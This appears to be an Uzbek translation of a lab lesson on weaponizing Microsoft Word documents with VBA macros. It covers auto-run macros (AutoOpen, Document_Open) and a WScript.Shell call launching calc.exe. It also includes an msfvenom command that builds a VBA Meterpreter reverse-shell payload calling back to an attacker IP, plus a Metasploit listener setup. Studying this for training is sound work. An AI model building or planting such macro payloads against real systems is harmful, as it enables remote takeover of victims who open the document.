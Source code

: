 
**Visual Basic for Application (VBA)**

VBA — bu *Visual Basic for Applications* (Ilovalar uchun Visual Basic) degan so‘zlarning qisqartmasi bo‘lib, Microsoft tomonidan Microsoft Word, Excel, PowerPoint va boshqa dasturlarga joriy qilingan dasturlash tili. VBA dasturlash Microsoft Office dasturlarida klaviatura va sichqoncha orqali bajariladigan deyarli barcha ishlarni avtomatlashtirish imkonini beradi.

**Makroslar** — bu Microsoft Office hujjatlarida joylashgan, Visual Basic for Applications (VBA) tilida yozilgan kod bo‘lib, qo‘lda bajariladigan ishlarni tezlashtirish uchun maxsus funksiyalar yaratadi. VBA’ning imkoniyatlaridan biri — Windows Application Programming Interface (API) va boshqa past darajadagi funksiyalarga kirishdir. VBA haqida batafsil ma’lumot olish uchun *bu yerni* oching.

Ushbu vazifada biz VBA asoslarini va qanday qilib dushman makroslardan foydalanib zararli Microsoft hujjatlarini yaratishini muhokama qilamiz. Ushbu vazifa mazmuniga amal qilish uchun 2-topshiriqda biriktirilgan Windows mashinasini ishga tushiring. Tayyor bo‘lgach, uni brauzer orqali ochishingiz mumkin bo‘ladi.

---

**Microsoft Word 2016’ni ochish**

1. *Start* menyusidan Microsoft Word 2016’ni ishga tushiring.
2. Mahsulot kaliti oynasini yopamiz, chunki biz uni 7 kunlik sinov muddatida ishlatamiz.
3. Microsoft Office litsenziya shartnomasini qabul qilamiz.

Keyin yangi bo‘sh Microsoft hujjatini yarating va birinchi makrosimizni yozamiz. Maqsad — VBA tilining asoslarini tushuntirish va hujjat ochilganda uni avtomatik ishlatishni ko‘rsatish.

**Makros yaratish**

1. *View → Macros* bo‘limiga o‘ting.
2. *Macro name* qismida makros nomini **THM** deb qo‘ying.
3. *Macros in* ro‘yxatida **Document1** tanlang va **Create** tugmasini bosing.
4. Microsoft Visual Basic for Applications muharriri ochiladi.

Oddiy xabar oynasi ko‘rsatish uchun quyidagi kodni yozamiz:

```vba
Sub THM()
  MsgBox ("Welcome to Weaponization Room!")
End Sub
```

**Makrosni ishga tushirish**: `F5` tugmasini bosing yoki *Run → Run Sub/UserForm* menyusidan foydalaning.

---

**Hujjat ochilganda avtomatik ishga tushirish**
VBA’da `AutoOpen` va `Document_Open` kabi funksiyalar mavjud bo‘lib, ular hujjat ochilganda avtomatik ishlaydi. Bizning holatda `THM` funksiyasini chaqiramiz:

```vba
Sub Document_Open()
  THM
End Sub

Sub AutoOpen()
  THM
End Sub

Sub THM()
   MsgBox ("Welcome to Weaponization Room!")
End Sub
```

Makros ishlashi uchun hujjatni *makrosga ruxsat berilgan format*da saqlash kerak, masalan `.doc` yoki `.docm`. Biz uni **Word 97-2003 Document** formatida saqlaymiz (*File → Save as type → Word 97-2003 Document*).

Hujjatni qayta ochganda Microsoft Word xavfsizlik xabarini chiqaradi — **Enable Content** tugmasini bosamiz. Makros ishga tushadi.

---

**Calc.exe’ni ishga tushirish uchun makros**

Quyidagi makros Windows kalkulyatorini ishga tushirish misoli:

```vba
Sub PoC()
    Dim payload As String
    payload = "calc.exe"
    CreateObject("Wscript.Shell").Run payload,0
End Sub
```

**Izoh**:

* `Dim payload As String` — `payload` nomli o‘zgaruvchini matn turi sifatida e’lon qiladi.
* `payload = "calc.exe"` — bajariladigan fayl nomini belgilaydi.
* `CreateObject("Wscript.Shell").Run payload` — Windows Scripting Host (WSH) obyektini yaratadi va faylni ishga tushiradi.

Agar funksiyaning nomini o‘zgartirsangiz, `AutoOpen()` va `Document_Open()` ichida ham o‘zgartirishingiz kerak.

---

**Makros + Metasploit yordamida Meterpreter teskari shell olish**

1. **Msfvenom yordamida payload yaratish**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba
```

* `LHOST` — hujumchi mashinasining IP-manzili (sizning AttackBox IP’ingiz).
* `LPORT` — tinglash porti.

Natijada VBA formatidagi kod hosil bo‘ladi. Excel uchun ishlatiladigan `Workbook_Open()` funksiyasini Word uchun `Document_Open()` ga almashtiramiz.

2. **Metasploit listener ishga tushirish**

```bash
msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.50.159.15
set LPORT 443
exploit
```

3. **Jabrlanuvchi hujjatni ochganda**
   Metasploit quyidagicha javob qaytaradi:

```
[*] Meterpreter session 1 opened (10.50.159.15:443 -> 10.10.215.43:50209)
meterpreter >
```

Natijada siz teskari Meterpreter shell olasiz.
